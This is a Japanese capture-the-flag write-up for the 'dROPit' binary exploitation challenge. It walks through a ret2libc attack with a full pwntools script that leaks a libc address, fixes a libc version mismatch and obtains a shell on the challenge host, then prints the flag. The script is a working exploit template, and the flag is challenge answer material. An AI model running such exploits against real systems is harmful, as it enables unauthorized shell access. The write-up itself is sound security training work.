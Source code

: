 # dROPit:Binary Exploitation:300pts
You're on your own this time. Can you get a shell?  
nc challenges.ctfd.io 30261  
Hint  
[https://libc.rip](https://libc.rip/)  

# Solution
ret2libcを行うと予想できる。  
以下のテンプレートhack.pyを使用する。  
```python:hack.py
from pwn import *

elf = ELF('./dropit')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = remote('challenges.ctfd.io', 30261)
#io = process(elf.path)
rop = ROP(elf)

puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(puts_plt))
log.info("__libc_start_main: " + hex(libc_start_main))
log.info("pop rdi gadget: " + hex(pop_rdi))

base = b'A' * 56

io.recvline()
payload = base + p64(pop_rdi) + p64(libc_start_main) + p64(puts_plt) + p64(main)
io.sendline(payload)
recieved = io.recvline().strip()
io.recvline()

leak = u64(recieved.ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))
libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
log.info("/bin/sh %s " % hex(binsh))
log.info("system %s " % hex(system))
payload = base + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)

io.interactive()
```
実行する。  
```bash
$ python hack.py
[*] '/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] Loaded 14 cached gadgets for './dropit'
[*] puts@plt: 0x40102c
[*] __libc_start_main: 0x403fe8
[*] pop rdi gadget: 0x401203
[*] Leaked libc address,  __libc_start_main: 0x7f2bbd33abc0
[*] Address of libc 0x7f2bbd319110
[*] /bin/sh 0x7f2bbd4cd20a
[*] system 0x7f2bbd3685f0
[*] Switching to interactive mode
?
[*] Got EOF while reading in interactive
$ ls
$ ls
[*] Closed connection to challenges.ctfd.io port 30261
[*] Got EOF while sending in interactive
```
libcのバージョンが違い、シェルが取れていないようだ。  
```bash
$ /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.5.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```
`__libc_start_main`が`0x7f2bbd33abc0`なので[https://libc.rip](https://libc.rip/)を使う。  
以下が得られる。  
![libcdb.png](images/libcdb.png)  
2.32のような気がするので、[pkgs.org (libc6_2.32-0ubuntu3_amd64.deb)](https://ubuntu.pkgs.org/20.10/ubuntu-main-amd64/libc6_2.32-0ubuntu3_amd64.deb.html)からダウンロードする。  
```bash
$ wget http://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.32-0ubuntu3_amd64.deb
~~~
$ ar vx libc6_2.32-0ubuntu3_amd64.deb
x - debian-binary
x - control.tar.xz
x - data.tar.xz
$ tar Jxvf data.tar.xz
~~~
$ ./lib/x86_64-linux-gnu/libc-2.32.so
GNU C Library (Ubuntu GLIBC 2.32-0ubuntu3) release release version 2.32.
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 10.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```
これをhack.pyと同じディレクトリに置き、使用する。  
hack.pyの`libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')`を`libc = ELF('./libc-2.32.so')`に書き換えればよい。  
```bash
$ python hack.py
[*] '/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/libc-2.32.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] Loaded 14 cached gadgets for './dropit'
[*] puts@plt: 0x40102c
[*] __libc_start_main: 0x403fe8
[*] pop rdi gadget: 0x401203
[*] Leaked libc address,  __libc_start_main: 0x7f453a024bc0
[*] Address of libc 0x7f4539ffc000
[*] /bin/sh 0x7f453a1aa41f
[*] system 0x7f453a04c3c0
[*] Switching to interactive mode
$ ls
dropit
flag.txt
$ cat flag.txt
nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}
```
実行するとシェルがとれるので、flag.txtの中を読み取るとflagが書かれていた。  

## nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}